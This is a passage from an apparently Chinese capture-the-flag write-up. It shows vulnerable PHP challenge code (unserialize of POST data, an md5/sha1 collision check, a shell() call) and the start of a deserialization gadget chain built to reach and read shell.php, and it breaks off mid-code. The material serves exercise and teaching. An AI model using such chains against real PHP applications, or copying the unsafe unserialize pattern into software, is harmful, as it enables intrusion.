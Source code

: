 ```bash
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){   
            shell($content);
        }else{
            echo file_get_contents($filename.".php");   
        }
    }
}
if($_GET['a']!==$_GET['b']&&(md5($_GET['a']) === md5($_GET['b'])) && (sha1($_GET['a'])=== sha1($_GET['b']))){
    @unserialize(base64_decode($_POST['unser']));
```

可以发现是存在一个 shell.php 的，我们构造链子读一下

```bash
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
```